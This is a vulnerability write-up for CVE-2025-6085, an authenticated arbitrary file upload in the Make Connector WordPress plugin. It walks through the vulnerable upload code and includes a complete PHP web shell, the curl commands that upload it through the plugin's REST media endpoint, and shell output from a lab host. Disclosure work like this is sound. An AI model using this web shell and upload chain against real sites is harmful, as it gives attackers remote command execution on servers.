 +++
title = 'Make Connector <= 1.5.10 - Authenticated (Admin+) Arbitrary File Upload'
date = 2025-09-03T00:00:12+00:00
hideToc = true
+++
### CVE-2025-6085

The [Make Connector](https://wordpress.org/plugins/integromat-connector/) plugin does not sanitize the file types in its REST API media uploads, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits

```bash
cat << 'EOF' > shello.php
<?php    
    // Silence is golden
    if (!empty($_GET['cmd'])) {
        echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
    }
?>
EOF

curl -k -X POST https://lab1.hacker/wp-json/wp/v2/media \
  -H "IWC-API-KEY: YOURFRIENDLYKEYHERE" \
  -F "file=@shello.php" \
  -F "title=Hacker World" \
  -F "description=A test file" \
  -F "caption=Hacker Caption" \
```

Leveraging the shell once it's in the uploads folder:
```bash
curl -k https://lab1.hacker/wp-content/uploads/2025/04/shello.php\?cmd\=ip%20addr         

<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 67461sec preferred_lft 67461sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86201sec preferred_lft 14201sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:bd:e1:95:26 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `/wp-content/integromat-connector/class/class-rest-request.php` file's `dispatch()` function will call `self::upload_media();` on line [24](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L24). This `upload_media()` function copies the uploaded file to a browsable directory `copy( realpath( $_FILES['file']['tmp_name'] ), $media_file_source );` on line [74](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L74), prior to checking the allowed mime types, which it does on lines [90-95](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L90-95)

Vulnerable snipped from `class-rest-reques.php`:
```php
66	                if ( (int) $_FILES['file']['size'] === 0 ) {
67	                        Rest_Response::render_error( 500, 'The uploaded file exceeds the upload_max_filesize directive in php.ini.', 'rest_upload_unknown_error' );
68	                }
69	
70	                if ( (int) $_FILES['file']['error'] > 0 ) {
71	                        Rest_Response::render_error( 500, 'An error has occured when uploading file to the server.', 'rest_upload_unknown_error' );
72	                }
73	
74	                copy( realpath( $_FILES['file']['tmp_name'] ), $media_file_source );
75	
76	                $title       = isset( $_REQUEST['title'] ) ? sanitize_title( $_REQUEST['title'] ) : '';
77	                $description = isset( $_REQUEST['description'] ) ? sanitize_text_field( $_REQUEST['description'] ) : '';
78	                $caption     = isset( $_REQUEST['caption'] ) ? sanitize_text_field( $_REQUEST['caption'] ) : '';
79	                $alt_text    = isset( $_REQUEST['alt_text'] ) ? sanitize_text_field( $_REQUEST['alt_text'] ) : '';
80	                $post_id     = isset( $_REQUEST['post'] ) ? (int) $_REQUEST['post'] : '';
81	
82	                $upload_dir = wp_upload_dir();
83	                $filename   = basename( $media_file_source );
84	                if ( wp_mkdir_p( $upload_dir['path'] ) ) {
85	                        $file = $upload_dir['path'] . '/' . $filename;
86	                } else {
87	                        $file = $upload_dir['basedir'] . '/' . $filename;
88	                }
89	
90	                $wp_file_type  = wp_check_filetype( $filename, null );
91	                $allowed_types = get_allowed_mime_types();
92	
93	                if ( ! in_array( $wp_file_type['type'], $allowed_types ) ) {
94	                        Rest_Response::render_error( 500, 'Sorry, this file type is not permitted for security reasons.', 'rest_upload_unknown_error' );
95	                }
```

## Manual Reproduction
1. Login to the admin panel and navigate to the `Make` plugin's settings, and copy the API key.
![one](./images/1.png)
2. Make a dirty web shell, or bring your own if you'd like:
```bash
cat << 'EOF' > shello.php
<?php    
    // Silence is golden
    if (!empty($_GET['cmd'])) {
        echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
    }
?>
EOF
```
2. Execute the following curl command to hit the plugin's media REST endpoint.
```bash
curl -k -X POST \
  https://VICTIMURLHERE/wp-json/wp/v2/media \
  -H "IWC-API-KEY: cjusksft1dwcoq43lyy6a6lf9tb6qc63" \
  -F "file=@shello.php" \
  -F "title=Hacker World" \
  -F "description=A test file" \
  -F "caption=Hacker Caption" \
  -F "alt_text=Hacker Alt Text"
```
3. You will see a json response like below, but that's OK because our file already got moved :)
```json
{
    "code": "rest_upload_unknown_error",
    "message": "Sorry, this file type is not permitted for security reasons.",
    "data": {
        "status": 500
    }
}
```
4. Naviate to the webshell located at `https://lab1.hacker/wp-content/uploads/2025/04/shello.php?cmd=ip%20addr`. Note, if you know what year and month it is, you should be fine to find this file...
![two](./images/2.png)
